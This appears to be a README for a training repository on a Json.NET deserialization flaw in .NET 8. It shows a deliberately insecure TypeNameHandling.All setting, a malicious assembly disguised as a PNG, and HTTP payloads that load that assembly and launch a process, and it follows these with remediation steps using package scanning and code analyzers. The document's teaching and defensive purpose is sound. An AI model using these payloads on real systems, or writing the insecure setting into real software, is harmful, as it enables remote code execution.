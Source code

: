 # .NET 8 Json.NET Serialization Vulnerability

Exploiting JSON serialization vulnerabilities in .NET is more challenging than in the .NET Framework. The .NET Framework gadget chains exploited by [ysoserial.net](https://github.com/pwntester/ysoserial.net) have been remediated in .NET.

This exploit requires setting _TypeNameHandling_ to _TypeNameHandling.All_. System.Text.Json does not natively allow type names to be included in serialized messages and is recommended. Further, with .NET 6+ it is not possible to override the default JSON serializer from System.Text.Json when using minimal APIs. See [Minimal APIs quick reference](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/minimal-apis?view=aspnetcore-8.0&WT.mc_id=MVP_337682#configure-json-deserialization-options-for-body-binding).

The code to run and reproduce this vulnerability is located in the scr/03-NET8-JsonVulnerabilities/unsecured folder in this repository and can be found at <https://github.com/johniwasz/rce-serialization-dotnet/tree/main/src/03-.NET8-JsonVulnerabilties/unsecured>.

``` csharp
builder.Services.AddControllers().AddNewtonsoftJson(
    options =>
    {
        options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
        options.SerializerSettings.ReferenceLoopHandling = ReferenceLoopHandling.Ignore;
    });
```

The MaliciousAssembly project includes a property that launches a process using the value of the property:

``` csharp
using System.Diagnostics;
. . .
public string ProcessLaunch
{
    get
    {
        return processName;
    }
    set
    {
        processName = value;
        Process.Start(value);
    }
}
```

The build process copies the MaliciousAssembly to the bin directory of the Todo API as _someimage.png_. This simulates an insecure file upload process. Which can be exploited through the _Metadata_ property of the _TodoItem_.

``` csharp
public class TodoItem
{
    public long Id { get; set; }
    public string? Name { get; set; }
    public bool IsComplete { get; set; }

    public Dictionary<string, object>? Metadata { get; set;}
}

```

Locate the requests.http file in the `Solution Items` folder.

This can be exploited using the following message:

``` json
# Test if a file can be read
POST https://{{hostname}}:{{port}}/api/TodoItems HTTP/1.1
{
  "name": "walk dog1",
  "isComplete": true,
  "metadata":
    {
        "data2": 
        {
          "$type": "System.IO.FileInfo, System.IO.FileSystem",
          "fileName": "rce-test.txt"
        }
    }
}
```

Note that the request generates an error since the `System.IO.FileInfo' class is not serializable; however, the class was instantiated which confirms a serialization vulnerability.

## Load the malicious file

The first REST API call loads the malicious file using:

``` json
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "load assembly",
  "isComplete": true,
  "metadata":
    {
        "data2":
        {
          "$type":"System.Configuration.Install.AssemblyInstaller, 
            System.Configuration.Install",
          "Path":"someimage.png"}
    }
}
```

The _Path_ is local; however, in a production environment, it could be loaded from a temporary directory or another local directory.

## Invoke the Malicious Property

Now that the Assembly is in the AppDomain, the ProcessLaunch property can be invoked:

``` json
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "launch calc",
  "isComplete": true,
  "metadata":
    {
        "launchdata":  
           { "$type":"MaliciousAssembly.ProcessStarter, MaliciousAssembly",
             "ProcessLaunch":"calc.exe" 
            }
    }
}
```

These calls are available in the _requests.http_ file. Running these examples in Visual Studio Code requires the [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client) extension.

## Remediating the Vulnerability

The next section covers how to close the security vulnerabilities exposed in the prior exercise.

### Scanning for Github Security Advisories

Scan the solution for known vulnerabilities using `dotnet`.

1. Navigate to the solution folder in a command prompt.

1. Execute the following and observe the results.

    ``` bat
    dotnet list package --vulnerable
    ```

1. Execute the a check for transitive dependencies and observe the results.

    ``` bat
    dotnet list package --vulnerable --include-transitive
    ```

Update any vulnerable Nuget packages that are directly referenced. Investigate and update vulnerable transitive dependencies if possible.

For more information, please see:
[How to Scan NuGet Packages for Security Vulnerabilities](https://devblogs.microsoft.com/nuget/how-to-scan-nuget-packages-for-security-vulnerabilities/?WT.mc_id=MVP_337682)

### Code Analysis Rules

Code Analysis Rules can be used to identify common security vulnerabilities and other issues. For more information, see [roslyn-analyzers](https://github.com/dotnet/roslyn-analyzers#microsoftcodeanalysisnetanalyzers). Security rules are disabled by default. For a comprehensive list of security rules see [Security Warnings](https://learn.microsoft.com/en-us/dotnet/fundamentals/code-analysis/quality-rules/security-warnings?WT.mc_id=MVP_337682).

1. Install the latest released [Microsoft.CodeAnalysis.NetAnalyzers](https://www.nuget.org/packages/Microsoft.CodeAnalysis.NetAnalyzers) Nuget package in the TodoApi.

1. Open File Explorer and navigate to the .nuget installation directory and review the folders under:

    ``` bat
    %USERPROFILE%\.nuget\packages\microsoft.codeanalysis.netanalyzers\8.0.0\editorconfig
    ```

1. Copy the `.editorconfig` file in the `AllRulesDefault` folder to the solution folder. This is the same folder that contains the `.NET8-JsonVulnerabilities.sln` file. The `SecurityRulesEnabled\.editorconfig` folder includes security rules set to warning and all others set to none. Security rules are disabled by default.

1. In Visual Studio, right-click on the `Solution Items` folder and select `Add | Existing Item...`. Add the `.editorconfig` file from the solution root directory.

1. Rebuild and observe the Warning messages returned in the Error List.

    ![Observe Warnings](./images/serialization01.png "Observe Warnings")

1. Warnings alert us to the issue, but they don't block the build. To prevent the Newtonsoft Json.NET security vulnerability, change the severity level to Error. Double-click the `.editorconfig` file, select the `Analyzers` tab. Search for `TypeName`. This is enough to find the `TypeNameResolver`. Change the Warning to Error. Save the `.editorconfig`.

    ![Warnings to Errors](./images/serialization02.png "Warnings to Errors")

1. Attempt to rebuild the solution. Observe that rebuilding fails with four errors.

1. Resolve the TypeNameResolver error in the Todo API project by commenting out line 11 in Program.cs in the Todo API project which applies the `TypeNameHandling.All` value. Observe that three security code analysis errors remain.

    ``` csharp
    builder.Services.AddControllers().AddNewtonsoftJson(
    options =>
    {
        // options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
        options.SerializerSettings.ReferenceLoopHandling = ReferenceLoopHandling.Ignore;
    });
    ```

1. In the JsonDeserialization.cs file in the RCESerialization.Test project, apply the following attribute to the test class. Observe that no code analysis errors remain.

    ```csharp
    namespace SerializationRCE
    {

    [System.Diagnostics.CodeAnalysis.SuppressMessage("Security", "CA2326:Do not use TypeNameHandling values other than None", Justification = "Test class. This is not production code.")]
    public class JsonDeserialization
    ```
